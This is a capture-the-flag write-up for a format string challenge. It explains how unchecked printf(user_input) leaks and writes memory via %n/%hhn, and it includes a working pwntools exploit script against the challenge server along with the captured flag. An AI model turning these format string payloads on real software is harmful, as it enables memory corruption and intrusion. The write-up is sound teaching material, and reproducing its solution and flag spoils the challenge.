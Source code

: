 # Format

Category: Binary Exploitation, Format String
Created: Nov 8, 2020 12:22 PM
Points: 300
Solved: Yes
Subjective Difficulty: 🔥🔥🔥

# WriteUp:

## 🔎 Research:

We are given a program that basically prints out our given input.

## 📝 Vulnerability Description:

The `printf` function accepts format specifier to print out user input. When printing user input without format specifiers, such as `printf(user_controlled_input)` , the user_controlled_input can contain format specifiers, which will leak the contents of memory where the arguments for the format specifier would be stored, e.g. `rsi, rdx, rcx, r8, r9, <stack_memory>...` . (see [Calling Conventions](https://www.notion.so/Calling-Conventions-9793ca23c0674d4089fcb2e1b468f778)).

## 🧠 Exploit Development:

The `%n` specifier writes how much characters are already written inclusive filled format specifiers:

```c
printf("%p%n", 0x1234567812345678, num); // %n would write 0x08 to num
```

When we want to write a single char to an address we can use the  `%hhn` specifier. Here are the specifiers all listed:

[printf](http://www.cplusplus.com/reference/cstdio/printf/)

So this format string would write a char  to `num_addr` by using the format specifier `%hhn` (hh=char)

```python
num_addr = 0x404080
payload = b"%hu%hu%u%p"+b"%u"+b"%p%p"+b"%p%hhnAA"+p64(num_addr)
```

We can prove that that actually overwrites the lowest bit of `num` with `0x42` :

Before overwriting:

![Format%202831b7f5178f459c861f4eb8e42cbfe9/before_overwriting.png](Format%202831b7f5178f459c861f4eb8e42cbfe9/before_overwriting.png)

After overwriting:

![Format%202831b7f5178f459c861f4eb8e42cbfe9/after_overwriting.png](Format%202831b7f5178f459c861f4eb8e42cbfe9/after_overwriting.png)

## 🔐 Exploit Programm:

```python
from pwn import *

num_addr = 0x404080

p = remote("challenges.ctfd.io", 30266)

pause()

payload = b"%hu%hu%u%p"+b"%u"+b"%p%p"+b"%p%hhnAA"+p64(num_addr) 

print(str(payload))

p.recvline() # Give me some text
p.sendline(payload)
r = p.recvline()
print(str(r))
print(p.recvall())
```

## 💥 Run Exploit:

![Format%202831b7f5178f459c861f4eb8e42cbfe9/successfull_exploit.png](Format%202831b7f5178f459c861f4eb8e42cbfe9/successfull_exploit.png)

**FLAG:  nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}**

## 🗄️ Summary / Difficulties:

This was a basic Format string exploitation challenge. 

## 🗃️ Further References:

- [Format Strings Exploitation](https://www.notion.so/Format-Strings-Exploitation-73dde030233e43d5a9fff305aa2abf35)
- [Calling Conventions](https://www.notion.so/Calling-Conventions-9793ca23c0674d4089fcb2e1b468f778)

## 🔨 Used Tools:

- [Pwndbg](https://www.notion.so/Pwndbg-2c0c6540dc5444559bb84545f6dbbd48)

---

# Notes:

-
